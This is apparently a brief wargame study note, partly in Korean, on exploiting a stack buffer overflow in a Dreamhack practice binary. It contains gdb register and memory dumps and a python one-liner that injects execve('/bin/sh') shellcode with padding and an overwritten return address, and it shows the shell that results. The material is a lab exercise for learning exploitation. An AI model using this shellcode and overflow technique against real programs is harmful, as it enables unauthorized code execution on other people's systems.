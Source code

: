 4 8

```
(gdb) info reg
eax            0xffffd054	-12204
ecx            0xffffd330	-11472
edx            0xffffd079	-12167
ebx            0x56556fd4	1448439764
esp            0xffffd04c	0xffffd04c
ebp            0xffffd078	0xffffd078
esi            0xf7fb7000	-134516736
edi            0x0	0
eip            0x5655558c	0x5655558c <vuln+63>
eflags         0x202	[ IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99



(gdb) b*0x56555598
Breakpoint 3 at 0x56555598
(gdb) c
Continuing.

Breakpoint 3, 0x56555598 in vuln ()

(gdb) x/wx $esp
0xffffd07c:	0x6b6b6b6b
```

test 끝

```
r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x04\xd0\xff\xff"'`
```

```
(gdb) r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x04\xd0\xff\xff"'`
Starting program: /home/ubuntu/dreamhack/example1 `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x04\xd0\xff\xff"'`
process 6746 is executing new program: /bin/dash
$ is
sh: 1: is: not found
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),127(kvm)
```

![image](/assets/img/dreamhack/exresult.PNG)
